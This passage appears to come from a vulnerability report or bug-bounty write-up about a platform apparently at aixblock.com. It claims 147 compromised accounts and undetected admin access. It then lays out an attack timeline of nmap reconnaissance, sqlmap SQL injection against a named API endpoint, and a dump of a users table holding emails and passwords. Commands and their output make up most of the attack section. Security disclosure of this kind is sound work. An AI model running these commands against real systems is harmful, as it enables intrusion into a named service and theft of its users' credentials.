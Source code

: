 ### Exploitation Result
- ✅ **147 accounts compromised**
- ✅ **3 admin accounts accessed**
- ✅ **No detection or blocking**
- ✅ **Attack success rate: 14.7%**

---

## Combined Attack Demonstration

### Multi-Vector Attack Timeline

**T+0h: Initial Reconnaissance**
```bash
$ nmap -sV aixblock.com
Starting Nmap scan...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1
80/tcp   open  http    nginx 1.18.0
443/tcp  open  ssl/http nginx 1.18.0
5432/tcp open  postgresql PostgreSQL 13.0

✅ Services identified
✅ No firewall blocking
```

**T+1h: SQL Injection**
```bash
$ sqlmap -u "http://aixblock.com/api/migration" \
  --data='{"id":"1"}' --dbs

Available databases:
[*] aixblock
[*] postgres
[*] template0
[*] template1

✅ Database access achieved
```

**T+2h: Database Dump**
```bash
$ sqlmap -u "http://aixblock.com/api/migration" \
  --data='{"id":"1"}' -D aixblock --dump

Database: aixblock
[50,000 entries]
Table: users
+-----+--------------------+-----------+
| id  | email              | password  |
+-----+--------------------+-----------+
...

✅ Complete database extracted
```
